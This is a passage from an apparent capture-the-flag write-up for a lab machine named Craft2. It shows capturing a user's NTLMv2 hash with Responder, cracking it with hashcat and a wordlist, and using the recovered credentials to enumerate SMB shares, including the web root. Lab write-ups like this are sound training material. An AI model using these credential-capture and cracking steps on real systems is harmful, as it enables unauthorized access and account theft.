 This will cause the target server to search for the link you've given to your own machine. In my case, I've started responder with `sudo responder -I tun0` which allows us to catch the NTLMv2 hash of the user on the remote server. 

![Craft27.png](/assets/images/Craft2/Craft27.png){: .responsive-image}

We can save this hash and crack it with hashcat. `hashcat -m 5600 $hash /usr/share/wordlists/rockyou.txt` does the trick pretty quickly because `5600` is for NTLMv2. 

![Craft28.png](/assets/images/Craft2/Craft28.png){: .responsive-image}

And we get `thecybergeek:winniethepooh` as our credentials. I tried a couple things to use these creds (impacket-smbexec), but not for very long before I decided to try the smb server with them. 

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WebApp          Disk      
```

We get access, and it becomes pretty clear that the WebApp share is the web root of the Craft application.

![Craft29.png](/assets/images/Craft2/Craft29.png){: .responsive-image}
